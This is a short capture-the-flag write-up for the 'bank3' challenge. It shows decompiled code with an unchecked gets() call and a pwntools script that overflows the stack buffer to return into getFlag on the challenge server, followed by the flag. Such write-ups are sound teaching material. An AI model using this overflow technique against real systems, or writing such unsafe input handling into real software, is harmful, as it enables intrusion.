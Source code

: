 ## bank3

#### Solved by hieplpvip

```
nc 61.28.237.24 30204

author: xikhud
```

`bank3` is very similar to `bank2`, except that the part which calls `getFlag` is removed:

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```

We use buffer overflow to overwrite the return address with the address of `getFlag`:

```py
from pwn import *
conn = remote('61.28.237.24', 30204)
conn.sendlineafter("name:", b'a' * 80 + p32(0x08048506))
conn.interactive()
```

Flag: `HCMUS-CTF{overwrite_all_the_things}`
